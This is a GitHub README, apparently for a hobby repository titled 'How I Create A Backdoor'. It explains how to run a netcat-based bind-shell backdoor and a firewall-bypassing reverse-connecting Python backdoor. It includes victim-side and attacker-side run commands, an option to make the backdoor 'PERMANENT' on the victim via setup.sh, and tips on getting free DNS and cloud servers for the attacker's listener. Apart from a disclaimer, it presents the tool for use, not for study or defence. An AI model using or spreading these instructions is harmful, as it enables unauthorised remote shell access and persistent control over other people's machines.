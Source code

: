 # How I Create A Backdoor 😎

![Linux-ok](https://img.shields.io/badge/Linux-ok-green) ![MacOS-ok](https://img.shields.io/badge/MacOS-ok-green) ![Window-ok](https://img.shields.io/badge/Window-todo-lightgrey) [![presentation](https://img.shields.io/badge/presentation-a)](https://slides.com/kysterdraw/how-i-create-a-backdoor)

## ⚠️ Disclaimer
> Any actions and or activities related to the material contained within this repository is solely your responsibility. The misuse of the information in this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this repository to break the law.

<br />

## 👌🏻 Basic Backdoor
### Description
Basic backdoor is the easiest backdoor that you could make.
The victim is just a server that redirects incoming messages into a shell and then sends back the shell output.
The victim IP can be found easly with `nmap`.

**⚠️ You usually need to be on the same subnet of the victim**

### Pre-requirements
- [netcat](http://netcat.sourceforge.net/) *(usually already installed)*

### Usage
```bash
# On the victim
./basic-backdoor/backdoor.sh
```

```bash
# On the attacker
nc $VICTIM-IP 8080
```

<br />

## 💪🏻 Advanced Backdoor
### Description
This advanced backdoor allow to bypass the firewall and to communicate outside subnetwork.
Now the victim is just a client, the attacker is the server. When the victim is connected to the attacker's server, he'll execute command provided by the attacker and then send it back its output.
You can configure `PORT` and `DNS` inside the files [backdoor-client.py](./advanced-backdoor/backdoor-client.py) and [backdoor-server.py](./advanced-backdoor/backdoor-server.py).

> You can use [freenom](https://my.freenom.com) to get a free DNS.
> You can use [aws](https://aws.amazon.com/fr/ec2/) to get free server.

### Pre-requirements
- [python3](https://www.python.org/download/releases/3.0/) *(usually already installed)*
- [pip](https://pip.pypa.io/en/stable/installing/) **(only for attacker)**

### Usage
```bash
# On the victim for non-permanent backdoor
./advanced-backdoor/backdoor-client.py

# ⚠️ On the victim for "PERMANENT" backdoor
./advanced-backdoor/setup.sh
```

```bash
# On the attacker (where the DNS is pointing to)
pip3 install -r ./advanced-backdoor/requirements.txt
./advanced-backdoor/backdoor-server.py
```

----

*➡️ Take time to understand how it's working, PR are welcomed*
